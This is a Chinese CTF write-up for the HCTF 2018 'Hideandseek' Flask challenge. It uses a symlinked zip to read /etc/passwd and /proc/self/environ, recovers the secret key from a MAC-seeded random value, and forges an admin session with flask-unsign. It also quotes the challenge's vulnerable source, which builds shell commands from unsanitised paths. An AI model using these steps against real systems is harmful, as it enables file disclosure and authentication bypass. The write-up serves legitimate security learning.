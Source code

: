 # \[HCTF 2018]Hideandseek

## \[HCTF 2018]Hideandseek

## 考点

* Linux下的ln命令
* Python随机数漏洞
* flask session伪造

## wp

提示先登录，随便输账号密码，比如aaaa/aaaa，提示要上传压缩包

![](<../../.gitbook/assets/image (24) (1) (1).png>)

F12看到session是`eyJ1c2VybmFtZSI6ImFhYWEifQ.FVpCHQ.ekVxiCec35C4f6Dm2G2qW-HES7U`

解码是`{'username': 'aaaa'}`

上传一个压缩包，返回了压缩包中的文件内容，那这里使用`ln`软链接可能有任意文件读取，和[\[SWPU2019\]Web3](swpu2019-web3.md)差不多

* `ln -s /etc/passwd test`
* `zip -ry test.zip test`

![](<../../.gitbook/assets/image (28).png>)

读取`/proc/self/cmdline`，`/proc/self/environ`，`/proc/cmdline`，有用的就只有`/proc/self/environ`

{% code title="/proc/self/environ" %}
```
......
UWSGI_INI=/app/uwsgi.ini
PWD=/app
STATIC_PATH=/app/static
......
```
{% endcode %}

再读取`/app/uwsgi.ini`

```
[uwsgi] 
module=main 
callable=app 
logto=/tmp/hard_t0_guess_n9p2i5a6d1s_uwsgi.log
```

读取`/app/main.py`发现是个假的文件，原题的uwsgi.ini文件如下

```
[uwsgi]
module = hard_t0_guess_n9f5a95b5ku9fg.hard_t0_guess_also_df45v48ytj9_main
callable=app
logto = /tmp/hard_t0_guess_n9p2i5a6d1s_uwsgi.log
```

读取`/app/hard_t0_guess_n9f5a95b5ku9fg/hard_t0_guess_also_df45v48ytj9_main.py`

```python
# -*- coding: utf-8 -*-
from flask import Flask,session,render_template,redirect, url_for, escape, request,Response
import uuid
import base64
import random
import flag
from werkzeug.utils import secure_filename
import os
random.seed(uuid.getnode())
app = Flask(__name__)
app.config['SECRET_KEY'] = str(random.random()*100)
app.config['UPLOAD_FOLDER'] = './uploads'
app.config['MAX_CONTENT_LENGTH'] = 100 * 1024
ALLOWED_EXTENSIONS = set(['zip'])

def allowed_file(filename):
    return '.' in filename and \
           filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS


@app.route('/', methods=['GET'])
def index():
    error = request.args.get('error', '')
    if(error == '1'):
        session.pop('username', None)
        return render_template('index.html', forbidden=1)

    if 'username' in session:
        return render_template('index.html', user=session['username'], flag=flag.flag)
    else:
        return render_template('index.html')


@app.route('/login', methods=['POST'])
def login():
    username=request.form['username']
    password=request.form['password']
    if request.method == 'POST' and username != '' and password != '':
        if(username == 'admin'):
            return redirect(url_for('index',error=1))
        session['username'] = username
    return redirect(url_for('index'))


@app.route('/logout', methods=['GET'])
def logout():
    session.pop('username', None)
    return redirect(url_for('index'))

@app.route('/upload', methods=['POST'])
def upload_file():
    if 'the_file' not in request.files:
        return redirect(url_for('index'))
    file = request.files['the_file']
    if file.filename == '':
        return redirect(url_for('index'))
    if file and allowed_file(file.filename):
        filename = secure_filename(file.filename)
        file_save_path = os.path.join(app.config['UPLOAD_FOLDER'], filename)
        if(os.path.exists(file_save_path)):
            return 'This file already exists'
        file.save(file_save_path)
    else:
        return 'This file is not a zipfile'


    try:
        extract_path = file_save_path + '_'
        os.system('unzip -n ' + file_save_path + ' -d '+ extract_path)
        read_obj = os.popen('cat ' + extract_path + '/*')
        file = read_obj.read()
        read_obj.close()
        os.system('rm -rf ' + extract_path)
    except Exception as e:
        file = None

    os.remove(file_save_path)
    if(file != None):
        if(file.find(base64.b64decode('aGN0Zg==').decode('utf-8')) != -1):
            return redirect(url_for('index', error=1))
    return Response(file)


if __name__ == '__main__':
    #app.run(debug=True)
    app.run(host='0.0.0.0', debug=True, port=10008)
```

获取flag的条件是session的username为admin

值得注意的是，它使用了`random.seed(uuid.getnode())`去生成随机数种子，然后设置secret\_key为随机数`app.config['SECRET_KEY'] = str(random.random()*100)`

Python中的random是伪随机数，只要种子是一样的，后面产生的随机数也是一样的

uuid.getnode()是返回当前主机网卡MAC地址的十进制形式，Linux中记录MAC地址的文件是`/sys/class/net/eth0/address`或者 `/etc/sysconfig/network-scripts/ifcfg-eth0`

读取`/sys/class/net/eth0/address`，得到`9e:e1:ac:68:a3:d1`

```
>>> s='9e:e1:ac:68:a3:d1'.replace(':','')
>>> s
'9ee1ac68a3d1'
>>> int(s,16)
174692097369041
```

然后重新跑一下随机数，Python2和3都试一下

{% code title="Python3" %}
```
>>> import random
>>> mac=174692097369041
>>> random.seed(mac)
>>> random.random()*100
75.69105245694635
```
{% endcode %}

然后重新生成session

```
flask-unsign --sign --cookie "{'username': 'admin'}" --secret '75.69105245694635'
eyJ1c2VybmFtZSI6ImFkbWluIn0.Yni6fA.z7e5HN3WUPwOIVRa5fyltNYuG_4
```

这里的随机数考点和[\[CISCN2019 华东南赛区\]Web4](ciscn2019-hua-dong-nan-sai-qu-web4.md)一样。

![](<../../.gitbook/assets/image (25) (1).png>)

## 小结

1. [\[CISCN2019 华东南赛区\]Web4](ciscn2019-hua-dong-nan-sai-qu-web4.md)+[\[SWPU2019\]Web3](swpu2019-web3.md)=本题
